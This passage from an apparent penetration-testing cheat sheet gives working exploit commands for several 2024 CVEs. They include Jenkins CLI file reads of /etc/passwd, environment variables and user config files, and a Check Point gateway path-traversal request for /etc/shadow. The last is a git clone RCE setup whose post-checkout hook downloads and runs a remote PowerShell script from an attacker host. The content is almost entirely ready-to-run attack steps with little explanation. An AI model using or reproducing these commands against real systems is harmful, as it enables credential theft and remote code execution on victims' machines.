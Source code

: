 It can be the case that the `file descriptor` needs to be incremented until it show the actual output.

#### Inside the container

```console
$ cat ../../../../etc/shadow
```

## CVE-2024-23897: Jenkins Arbitrary File Read

> https://github.com/CKevens/CVE-2024-23897

```console
$ java -jar jenkins-cli.jar -noCertificateCheck -s 'http://<RHOST>:8080' help "@/etc/passwd"
$ java -jar jenkins-cli.jar -noCertificateCheck -s 'http://<RHOST>:8080' help "@/proc/self/environ"
$ java -jar jenkins-cli.jar -noCertificateCheck -s 'http://<RHOST>:8080' connect-node "@/var/jenkins_home/users/users.xml"
$ java -jar jenkins-cli.jar -noCertificateCheck -s 'http://<RHOST>:8080' connect-node "@/var/jenkins_home/users/<USERNAME>_12108429903186576833/config.xml"
```

## CVE-2024-24919: Check Point Security Gateway Information Disclosure (0-day)

```console
POST /clients/MyCRL HTTP/1.1
Host: <RHOST>
Content-Length: 39

aCSHELL/../../../../../../../etc/shadow
```

## CVE-2024-32002: Git: git clone RCE

> https://amalmurali.me/posts/git-rce/

> https://github.com/amalmurali47/git_rce

### Hook Repository

```console
$ git clone http://<RHOST>:3000/<USERNAME>/hook.git
$ cd hook
$ mkdir -p y/hooks
```

```console
$ cat > y/hooks/post-checkout <<EOF
#!/bin/bash
powershell.exe "IEX (New-Object Net.WebClient).DownloadString('http://<LHOST>/<FILE>.ps1')"
EOF
```

```console
$ chmod +x y/hooks/post-checkout
$ git add y/hooks/post-checkout
$ git commit -m "post-checkout"
$ git push
```
